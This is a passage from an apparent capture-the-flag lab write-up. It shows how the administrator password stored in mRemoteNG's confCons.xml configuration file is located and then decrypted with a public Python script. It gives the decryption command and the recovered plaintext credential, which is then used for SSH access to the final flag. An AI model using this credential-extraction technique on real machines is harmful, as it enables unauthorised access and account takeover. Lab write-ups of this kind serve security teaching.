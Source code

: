
---

**Note:** `mRemoteNG` - This is a free remote connection manager that supports many different remote access protocols.

---

> The configuration file `confCons.xml` with all the connection and user authentication settings is located in the directory by default - `C:\Users\L4mpje\AppData\Roaming\mRemoteNG`:

<p align="center">
 <img src="./screenshots/confcons.png" alt="confcons" />
</p>

<p align="center">
 <img src="./screenshots/admin_pass.png" alt="admin_pass" />
</p>

> The file contains the administrator password for connection, but it is encrypted. To decrypt passwords for the program `mRemoteNg`, I use the script `mremoteng_decrypt.py`
> from the repository `https://github.com/kmahyyg/mremoteng-decrypt`:

[mRemoteNG-decrypt](https://github.com/kmahyyg/mremoteng-decrypt)

```bash

sudo python3 mremoteng_decrypt.py -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=='

```
```bash

Password: thXLHM96BeKL0ER2

```
> We have a valid **Administrator** account - `Administrator:thXLHM96BeKL0ER2`

> Connect via `SSH` and take the **last flag** in the directory - `C:\Users\Administrator\Desktop`:
